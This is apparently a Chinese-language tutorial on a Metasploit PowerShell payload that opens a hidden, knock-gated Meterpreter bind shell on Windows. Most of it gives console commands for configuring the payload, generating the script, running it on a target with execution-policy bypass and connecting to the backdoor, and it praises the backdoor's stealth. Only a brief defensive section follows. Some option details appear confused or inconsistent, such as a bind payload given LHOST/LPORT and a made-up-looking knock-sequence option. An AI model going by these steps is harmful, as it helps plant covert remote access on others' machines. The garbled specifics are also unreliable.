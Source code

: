 `cmd/windows/powershell/meterpreter/bind_hidden_ipknock_tcp` 是 Metasploit 框架中的一种 payload，它利用 PowerShell 脚本在 Windows 系统上实现一个绑定的 Meterpreter shell。这个 payload 使用一种被称为 "IP knocking" 的技术，结合隐藏的 TCP 端口，使得只有特定的 IP 地址通过特定的“敲门”序列才能触发和访问这个绑定的 Meterpreter shell。

### `bind_hidden_ipknock_tcp` 详解

1. **概念**：
   - **Meterpreter**：Meterpreter 是 Metasploit 框架中的一种高级、动态可扩展的 payload。它提供了丰富的后渗透功能，如文件操作、进程控制、网络侦察等。
   - **绑定 shell（bind shell）**：绑定 shell 是指在目标系统上打开一个监听端口，等待攻击者连接，然后提供一个 shell 会话。
   - **IP knocking**：IP knocking 是一种安全技术，利用一系列预定义的端口敲门序列来触发防火墙规则或开放服务。只有发送正确敲门序列的 IP 地址才能访问服务。

2. **工作原理**：
   - `cmd/windows/powershell/meterpreter/bind_hidden_ipknock_tcp` payload 生成一个 PowerShell 脚本，该脚本在目标系统上启动一个绑定的 Meterpreter shell。
   - 脚本使用 IP knocking 技术，只有通过特定序列敲门的 IP 地址才能访问绑定的端口。
   - 这种方法增加了隐蔽性，使得即使端口被绑定，也不易被常规扫描发现。

3. **用途**：
   - **隐蔽访问**：通过 IP knocking 技术，只允许特定 IP 地址访问，增加了后门的隐蔽性和安全性。
   - **远程控制**：提供一个绑定的 Meterpreter shell，攻击者可以通过这个后门实现远程控制和后渗透操作。

### 使用 `bind_hidden_ipknock_tcp` 的步骤

1. **加载模块**：
   在 Metasploit 控制台中加载 `cmd/windows/powershell/meterpreter/bind_hidden_ipknock_tcp` payload：
   ```sh
   use payload/cmd/windows/powershell/meterpreter/bind_hidden_ipknock_tcp
   ```

2. **设置选项**：
   配置目标参数，如目标 IP 地址、端口以及 IP knocking 序列等：
   ```sh
   set RHOST <target_ip>
   set RPORT <target_port>
   set KNOCK_SEQ <knock_sequence>
   set LHOST <your_ip>
   set LPORT <your_port>
   ```

3. **生成和传输脚本**：
   生成包含绑定 Meterpreter shell 和 IP knocking 功能的 PowerShell 脚本：
   ```sh
   generate -f ps1 -o bind_hidden_ipknock_tcp.ps1
   ```
   将生成的 PowerShell 脚本传输到目标系统。

4. **执行 PowerShell 脚本**：
   在目标系统上执行传输的 PowerShell 脚本，启动绑定的 Meterpreter shell 并启用 IP knocking 功能。

### 示例

以下是使用 `cmd/windows/powershell/meterpreter/bind_hidden_ipknock_tcp` payload 的一般步骤：

1. **配置 Metasploit**：
   ```sh
   use payload/cmd/windows/powershell/meterpreter/bind_hidden_ipknock_tcp
   set RHOST 192.168.1.100
   set RPORT 4444
   set KNOCK_SEQ 12345,23456,34567
   set LHOST 192.168.1.200
   set LPORT 5555
   ```

2. **生成 PowerShell 脚本**：
   ```sh
   generate -f ps1 -o bind_hidden_ipknock_tcp.ps1
   ```

3. **传输和执行脚本**：
   将生成的 PowerShell 脚本传输到目标系统，并在 PowerShell 中执行：
   ```sh
   powershell -ExecutionPolicy Bypass -File bind_hidden_ipknock_tcp.ps1
   ```

4. **发送 IP knocking 序列**：
   使用适当的工具（如 `knockd`）发送预定义的 IP knocking 序列，以开启访问权限。

5. **连接到 Meterpreter shell**：
   使用 Metasploit 连接到目标系统上的绑定 shell：
   ```sh
   use exploit/multi/handler
   set PAYLOAD cmd/windows/powershell/meterpreter/bind_hidden_ipknock_tcp
   set LHOST 192.168.1.200
   set LPORT 5555
   exploit
   ```

### 安全注意事项

- **检测和防御**：管理员可以通过监控网络流量和使用入侵检测系统（IDS）来检测和阻止异常的 IP knocking 活动。
- **权限控制**：限制用户执行 PowerShell 脚本的权限，并启用严格的 PowerShell 执行策略。
- **网络监控**：通过网络监控和日志审计，及时发现和响应潜在的攻击活动。

### 总结

`cmd/windows/powershell/meterpreter/bind_hidden_ipknock_tcp` 是一种结合 IP knocking 技术的绑定 Meterpreter shell 的 Metasploit payload。它通过 PowerShell 脚本在 Windows 系统上启动一个绑定的 Meterpreter shell，并使用 IP knocking 技术增加访问的隐蔽性和安全性。攻击者可以利用这种 payload 实现远程控制和后渗透操作，同时通过 IP knocking 技术提高后门的隐蔽性。管理员应采取适当的安全措施来检测和防御此类攻击。